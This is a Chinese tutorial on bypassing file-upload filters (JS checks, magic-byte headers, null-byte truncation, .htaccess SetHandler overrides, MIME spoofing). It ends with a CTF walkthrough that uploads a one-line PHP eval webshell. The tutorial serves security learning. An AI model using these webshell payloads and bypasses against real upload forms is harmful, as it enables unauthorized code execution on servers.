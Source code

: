 # 文件上传之js前端过滤、waf过滤和服务端过滤

## 客户端的js绕过

### 一般会利用js来编写检测模块来对上传文件的后缀名进行检测
         
         解决的方法：1. 通过burpsuite的抓包，然后直接对文件后缀名进行更改就能实现绕过
                            2. 可以通过禁止javascript模块来进行绕过，如果是火狐浏览器可以通过在url上输入about:config来关闭javascript模块·



## waf的绕过，就是对文件里面的内容进行审计

### 通过文件幻术头部进行绕过

就是用winhex解码文件后，在文件的头部加上该文件类型特有的标志数值或在文件内容的首部加上相关信息（如：gif就写上GIF89a）

jpg
```
FF D8 FF E0 00 10 4A 46 49 48
```

png
```
89 50 4E 47
```

gif
```
47 49 46 38 39 61
```
### 对一些关键字符的禁止

#### 对php语言的字符<?的禁止的绕过方法

用php和html的混编语言进行编写
```
<script language='php'> //<?php

</script> //?>

```


## 服务器端的检测

### 白名单和黑名单

白名单：优先通过的文件类型

黑名单：禁止通过的文件类型

#### 黑名单的绕过

##### 用0x00进行截断
在php语言和c语言中，会对0x00后面的字符串进行丢弃，不会显示出来

实例
```
aaa.php0x00.txt中的0x00会丢弃.txt，最后会执行的是aaa.php文件
```

##### 特殊文件名的绕过
在windows系统当中，以点和空格结尾的后缀名，保存文件时会自动删除点和空格

实例
```
aaa.php.在windows系统中会保存为aaa.php

aaa.php 在windows系统中会保存为aaa.php
```
但是在Unix/linux系统中除外

##### .htaccess文件攻击

当我们上传文件时会一般会调用move_uoloaded_file函数，而如果没有对它的权限进行限制的话，那么当我们写一个.htaccess文件上传时，
便会调用move_uploaded_file函数对已经存在服务器的.htaccess文件进行一个覆盖

文件中的内容
```
SetHandler application/x-httpd-php //将所有类型的文件都以php来运行
```

文件内容，意思是文件中有haha的都以php运行
```

<FilesMatch "haha">

SetHandler application/x-httpd-php

</FilesMatch>

```

##### 文件名大小写绕过：pHp、AsP等


#### 白名单绕过

##### 用0x00进行截断，和黑名单的一样

##### 上传一个有代码注入的非黑名单文件，然后再调用它即可

### 服务器MIME类型的检测

在上传时，会有一个content-type字段来告诉服务器文件的类型，服务器再将此字段的值来和黑名单和白名单进行比对

因此，绕过方法，如果构造shell.php，content-type：text/plain
所以我们可以在burpsuite抓包后，对content-type字段进行更改，改为非黑名单文件类型，例如：改为content-type：image/jpg


### 服务器目录路径检测

检测路径是否合法，可以通过0x00截断的方式来绕过


对于文件上传的详细请看：
https://www.jb51.net/article/158945.htm
https://www.cnblogs.com/aslijitong/p/12821245.html


## 实例（[极客大挑战 2019]Upload1）

打开页面后发现是文件上传，此时我们想到的是文件上传漏洞，因此我们构造一个一句话木马的php文件

```
<?php eval($_GET['sys']) ?>
```

页面爆出错误，说非image，可以判断可能是js端的文件后缀名检测

因此我们用burpsuite抓包来更改后缀名，进行一个绕过

而后页面爆出限制<?符号，因此我们可以构造php和html混编的一句话木马，并抓包后将文件名改为phtml

```
<spcrit language='php'> eval($_GET['sys']) </spcrit>
```

上传后，页面返回不是image，因此可以猜测是服务器对文件相关信息进行了检测，所以我们可以通过添加相关信息进行绕过

文件内容的首部加的内容
```
GIF89a
```
而后再提交，最后成功上传，一般上传的位置都在/upload里，因此用蚁剑构造/upload/shell.phtml进行连接，得到flag